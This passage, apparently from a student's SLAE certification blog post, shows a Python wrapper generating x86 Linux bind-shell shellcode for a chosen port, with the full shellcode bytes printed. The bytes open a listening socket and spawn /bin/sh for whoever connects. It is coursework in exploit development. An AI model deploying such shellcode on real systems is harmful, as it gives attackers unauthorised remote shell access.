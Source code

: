 Running the script with a custom port returns the new shellcode:

```
dubs3c@slae:~/SLAE/EXAM/assignment_1$ python wrapper.py 600
[!] Warning: Ports < 1024 must be run as a root
[+] Bind shell running on port 600
[+] Your Shellcode:
\x31\xc0\x31\xdb\x31\xd2\xb0\x66\xb3\x01\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x02\x52\x66\x68\x02\x58\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x02\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x57\x89\xe1\xcd\x80\x89\xc7\xb0\x3f\x89\xfb\x89\xd1\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xc0\xb0\x0b\xcd\x80
```

There you go, hack the planet!

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490
